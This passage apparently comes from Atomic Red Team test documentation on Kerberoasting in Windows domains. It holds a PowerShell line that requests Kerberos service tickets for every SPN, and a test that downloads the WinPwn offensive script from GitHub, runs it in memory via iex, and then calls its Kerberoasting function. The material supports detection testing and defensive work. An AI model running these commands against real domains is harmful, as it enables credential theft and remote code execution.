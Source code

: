 
```powershell
Add-Type -AssemblyName System.IdentityModel  
setspn.exe -T #{domain_name} -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #6 - WinPwn - Kerberoasting
Kerberoasting technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 78d10e20-c874-45f2-a9df-6fea0120ec27






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Kerberoasting -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus
PowerSharpPack - Kerberoasting Using Rubeus technique via function of WinPwn
